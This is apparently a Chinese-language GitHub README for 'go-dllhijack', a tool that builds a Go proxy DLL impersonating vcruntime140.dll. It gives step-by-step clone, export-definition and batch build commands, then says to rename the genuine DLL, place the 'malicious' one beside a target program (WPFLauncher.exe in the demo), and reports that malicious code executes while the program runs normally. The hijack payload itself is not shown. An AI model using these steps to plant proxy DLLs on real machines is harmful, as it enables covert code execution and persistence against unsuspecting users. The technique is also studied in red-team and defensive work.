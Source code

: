# go-dllhijack
##基于go的简单劫持方法
在使用前请确保你系统上有GoLang python MinGW

以vcruntime140.dll为例
```sh
git clone https://github.com/famei/go-dllhijack
pip install pefile
python def.py vcruntime140.dll
```
会得到以下输出
!(https://raw.githubusercontent.com/famei/go-dllhijack/main/def.png)
###将输出的内容复制到win.def内
###新建一个bat脚本
```bat
dlltool --output-exp win.exp --input-def win.def
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -buildmode=c-shared -o vcruntime140.dll -ldflags="-extldflags=-Wl,{文件夹绝对路径}\win.exp -s -w"
```
###会得到一个vcruntime140.dll文件
将正常的vcruntime140.dll重命名为_vcruntime140.dll
将恶意的vcruntime140.dll和_vcruntime140.dl放在同一目录

这里用WPFLauncher.exe作为演示
双击WPFLauncher.exe程序正常运行 恶意代码被成功执行
!(https://raw.githubusercontent.com/famei/go-dllhijack/main/WPFLauncher.png)



